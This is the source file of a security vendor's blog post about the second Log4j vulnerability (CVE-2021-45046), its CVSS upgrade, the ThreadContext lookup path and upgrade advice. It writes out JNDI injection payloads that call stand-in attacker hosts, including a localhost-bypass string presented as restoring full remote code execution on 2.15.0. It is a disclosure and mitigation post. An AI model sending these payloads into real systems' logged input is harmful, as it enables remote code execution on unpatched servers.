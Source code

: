 ```yaml
---
title: "Log4Shell Update: Severity Upgraded 3.7 to 9.0 for Second log4j Vulnerability (CVE-2021-45046)"
description: The second Log4j vulnerability was upgraded from a CVSS score of 3.7x (limited DOS) to a CVSS score of 9.7 (limited RCE), and we explain the impact.
slug: log4j-zero-day-severity-of-cve-2021-45046-increased
date: 2021-12-19
image: https://www.lunasec.io/docs/img/log4shell-keeps-coming.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
tags: [zero-day, security, data-security, data-breaches, log4shell]
authors: [free, chris, forrest]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-keeps-coming.png)

_The logo gets worse as the situation gets worse..._

_Originally Posted @ December 17th & Last Updated @ December 19th, 3:37pm PST_

Earlier today, the second Log4j vulnerability (CVE-2021-45046) was upgraded from a [CVSS score of 3.7](https://web.archive.org/web/20211215180723/https://logging.apache.org/log4j/2.x/security.html)
(limited DOS) to a [CVSS score of 9.0](https://logging.apache.org/log4j/2.x/security.html) (limited RCE). ~~Note: the reported
limited RCE has only been proven to be exploitable on macOS at the moment. We expect, in time, that other operating systems
will also be shown to be exploitable.~~ Update: More operating systems have been showing to be vulnerable: MacOS, Fedora, Arch Linux, and Alpine Linux.

See the bottom of this post for an example exploit payload that bypasses the checks in log4j 2.15.0.

**Just trying to patch Log4Shell? Please read our dedicated
[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).**

## Context on CVE Timeline

The Log4j team had previously released version 2.15.0 on December 6th to address, which at the time had only been
privately disclosed, the Log4Shell vulnerability that abused JNDI and LDAP to allow for an easily exploitable RCE
vulnerability. We posted a
[blog post](https://www.lunasec.io/docs/blog/log4j-zero-day/) about this new RCE that, at the time, was only being posted
about by the Chinese InfoSec community on December 9th, 2021. This post made the broader InfoSec community aware of the
ongoing exploitation and resulted in a frenzy as Java developers worked to patch themselves.

The following day, on December 10th, an official CVE was associated with this RCE vulnerability as
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) with the maximum possible CVSS score of
10.0.

In the days afterwards, it was realized that this fix was incomplete as bypasses were found that could result in a
limited DOS for 2.15.0 users and, for users that had patched older Log4j releases using `formatMsgNoLookups`, these
bypasses could be used to allow for limited RCE.

Version 2.16.0 was released on December 13th to address the vulnerabilities by completely disabling JNDI by default.
The next day, on December 14th, the second vulnerability was officially given a dedicated CVE numbered CVE-2021-45046
with a limited 3.7 (now 9.0).

In this post, we're going to talk about the impact of these changes and why the CVSS score has changed so drastically.

<!--truncate-->

## Understanding the new Bypass

With more attention on Log4j library now from the security community, we have seen security researchers digging into the
source code of this project. @pwntester [announced on Twitter](https://twitter.com/pwntester/status/1471465662975561734)
that there is a possible RCE still present in 2.15.0, under certain conditions.

> 2.15 with no formatMsgNoLookups mitigations is still vulnerable to RCE. 2.15.0 w/o those mitigations is vulnerable only
if attackers can control non-message parts of the pattern layout. Just to make it clear 2.15.0 disables message text lookups
by default, users need to enable them explicitly in the patterns with %m{lookups}. So mitigations are in place by default in 2.15.0

Version 2.15.0 was released in order to prevent RCE by only allowing LDAP connections to local addresses by default. This
development for the CVE means that there exists a bypass to these newly added security measures. Not everyone who has updated
to 2.15.0 is vulnerable to RCE as it requires a specific logging configuration. Since the `formatMsgNoLookups` property
is on by default in 2.15.0, to be vulnerable to this RCE, message text lookups must be manually enabled with `%m{lookups}`.

However, there even still are other ways in which a message lookup can take place. Some examples are discussed on the Log4j
security page:

> The reason these measures are insufficient is that, in addition to the Thread Context attack vector mentioned above,
there are still code paths in Log4j where message lookups could occur: known examples are applications that use
Logger.printf("%s", userInput), or applications that use a custom message factory, where the resulting messages do not
implement StringBuilderFormattable. There may be other attack vectors.

To summarize, 2.15.0 introduced changes to prevent remote connections in a message lookup (ie. a connection to `some-attacker.com`
will be blocked in: `${jndi:ldap://some-attacker.com/a}`), as well as disabled message lookups when logging by default:

```
String attackerData = "${jndi:ldap://some-attacker.com/a}";

// Message lookups are blocked in this log statement. Payload will not fire by default.
logger.info("Log string, but no lookup will happen: " + attackerData);
```

These changes were still not enough to prevent message lookups by default as there are other places in code where this could take place:

```
// Put attacker controlled data in
ThreadContext.put("layout-pattern-value", attackerData);
```

An example `log4j2.properties` file might look something like:

```
# The attacker data, "${jndi:ldap://some-attacker.com/a}", will be attempted to be looked up
appender.console.layout.pattern = ${ctx:layout-pattern-value} - %d{yyyy-MM-dd HH:mm:ss} %-5p %c{1}:%L - %m%n
```

However, since only local connections were allowed in 2.15.0, the impact of this vulnerability were minimal.
The most impactful way to exploit this vulnerability was to have `String attackerData = "${ctx:layout-pattern-value"`
which would result in a recursive reference in the lookup. With the reported bypass of the restrictive remote connection
list, a full RCE is possible in the above code as we can access `some-attacker.com` now.

It is strongly recommended that you update to ~~2.16.0~~ 2.17.0 (Updated 12/19), even if you have previously updated to 2.15.0 or 2.16.0, to mitigate these
new bypasses. (Updated 12/19 due to new DOS found in 2.16.0. Please upgrade to 2.17.0 to mitigate issues in previous versions.)

## Update: The localhost Bypass was Discovered!

It was [posted](https://twitter.com/marcioalm/status/1471740771581652995) on Twitter by Márcio Almeida early on
December 17th.

This payload will bypass the network host restrictions in log4j 2.15.0 and allow full RCE again:
```
${jndi:ldap://127.0.0.1#evilhost.com:1389/a}
```

We are still investigating how to have this exploit work properly on other operating systems. It has been proposed that
[changing the default provider](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E)
to `dns,sun`:

```
System.setProperty("http://sun.net.spi.nameservice.provider.1", "dns,sun")
```

will cause the exploit to bypass the allowed hosts check in `2.15.0` properly. However, we have not been able to replicate
this yet.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Additional Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**,
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**,
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**,
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-17-log4j-update-increased-cvss.mdx).
:::

### Edits

1. Added a note that the RCE has only been provably exploitable on macOS
2. 12/19/21: Updated info about 2.17.0 release due to CVE.
1. Added a note that the RCE has been provably exploitable on MacOS, Fedora, Arch Linux, and Alpine Linux.
